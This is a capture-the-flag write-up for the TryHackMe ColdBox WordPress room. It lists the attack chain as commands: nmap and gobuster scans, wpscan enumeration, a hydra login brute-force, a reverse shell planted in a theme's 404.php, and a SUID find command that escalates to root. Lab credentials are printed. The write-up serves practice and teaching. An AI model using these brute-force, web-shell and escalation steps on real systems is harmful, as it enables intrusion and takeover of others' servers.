

# ColdBox Room [TryHackMe](https://tryhackme.com/room/colddboxeasy)

---



---

## Index
- [Enumeration](#enumeration)
- [Find vunerabilies](#finding-vunerabilies)
- [Reverse shell](#gaining-a-reverse-shell)
- [PrivEsc](#priviledge-escalation)

---

```bash
$ export IP=10.10.94.215
```

---
### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt

```

Ports:
```
80 http
4512 ssh
```

Directories:
```
/wp-content
/wp-admin.php
/wp-login.php
/hidden
/xmlrpc.php
```

---
### Finding vunerabilies

Since this is a wordpress website, we can use `wpscan` to enumerate it easily and quickly

```bash
$ wpscan --url $IP -e vp,vt,u
```

This yields multiple usernames we can leverage. They also correlate with names we found in `/hidden`

Contructing the hydra command to brute force the users
```bash
$ hydra -t 64 -V -L users.txt -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```

Also, worthy to note wpscan's bruteforcer which seems as faster (if not faster) than hydra at full sprint
```bash
$ wpscan --url $IP -U users.txt -P ~/wordlists/passwords/rockyou.txt
```
And you don't even need to tinker with the request format, making it much nicer to work with than hydra.

Once that is done (takes a while unfortunately) we gain the credentials:
`c0ldd:9876543210`

---
### Gaining a reverse shell

Once we're in, I notice our ability to edit theme files. Meaning that we can create a php reverse shell by modifying one of the php scripts with our reverse shell code.
I chose `404.php` in the twentyfifteen theme and navigated to `http://$IP/wp-content/themes/twentyfifteen/404.php` and voila! Our reverse shell is active.


---
### Priviledge Escalation

Now that we are logged on as `www-data` I navigate to `/tmp` and `wget` linpeas to begin enumerating the system.
I quickly notice a strange plaintext linpeas found in the wordpress config in regards to a database. It gave a username `c0ldd` and their password `cybersecurity` but before I decide to `su` into `c0ldd` I notice that `find` has its SUID bit set, enabling us to quickly escalate to root!
Before I exploit find, I decide to check if `c0ldd`'s password really was cybersecurity. And it is!
Moving onto `find` though,

```bash
find . -exec /bin/bash -ip \; -quit
```

And we are now root!
Note, that you can decode your user and root flags using b64 and google translating them from Spanish!
(The room requires the encoded flags though)

And we are _**complete!**_

Great practice for beginners like myself


